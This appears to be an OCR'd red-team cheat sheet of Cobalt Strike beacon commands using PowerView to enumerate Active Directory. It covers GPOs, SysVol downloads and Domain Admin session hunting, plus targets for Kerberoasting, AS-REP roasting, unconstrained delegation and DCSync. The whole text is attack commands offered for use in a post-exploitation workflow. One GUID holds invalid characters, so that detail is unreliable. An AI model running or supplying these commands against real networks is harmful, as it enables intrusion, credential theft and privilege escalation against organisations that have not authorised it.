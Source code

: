 ```
beacon> powershell Get-DomainGPO -Identity SomeGPOName

# Download
beacon> download \\vault.io\SysVol\vault.io\Policies\{CBZLLD65-D822-469A-ADB4-BE08DF6FZZZ1\Machine\Registry.pol

# Domain Local Group
beacon> powershell Get-DomainGPOLocalGroup | Select-Object GPODisplayName, GroupName

# Domain User Location
beacon> powershell Find-DomainUserLocation -UserGroupIdentity 'Domain Admins' | Select-Object UserName, SessionFromName

beacon> powershell Find-DomainUserLocation -Domain vault.io -UserIdentity p.sampson

# Local Group
beacon> powershell Get-NetLocalGroup | Select-Object GroupName

# Remote Machine Local Group
beacon> powershell Get-NetLocalGroup -ComputerName 's-east-05'| Select-Object GroupName

# Local Group Member
beacon> powershell Get-NetLocalGroupMember -GroupName Administrators | Select-Object MemberName, IsGroup, IsDomain

# logons
beacon> powershell Get-NetLoggedOn | Select-Object UserName

# sessions
beacon> powershell Get-NetSession -ComputerName s-east-05 | Select-Object CName, UserName

# Domain Trusts
beacon> powershell Get-DomainTrust -Domain vault.io

# Domain Trusts Dns
gwmi -Namespace root\MicrosoftDNS -Class MicrosoftDNS_Zone -Filter "ZoneType = 4" |Select -Property @{n='Name';e={$_.ContainerName}}, @{n='DsIntegrated';e={$_.DsIntegrated}}, @{n='MasterServers';e={([string]::Join(',', $_.MasterServers))}}, @{n='AllowUpdate';e={$_.AllowUpdate}}

# non-null SPNs
beacon> powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

# asreproastable
beacon> powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName

# unconstrained delecation computers
beacon> powershell Get-DomainComputer -Unconstrained -Properties DnsHostName

# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? { ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }

# list users with dcsync rights
Get-ObjectACL -DistinguishedName "dc=companyx,dc=com" -ResolveGUIDs | ? { ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') } | select IdentityReference
```
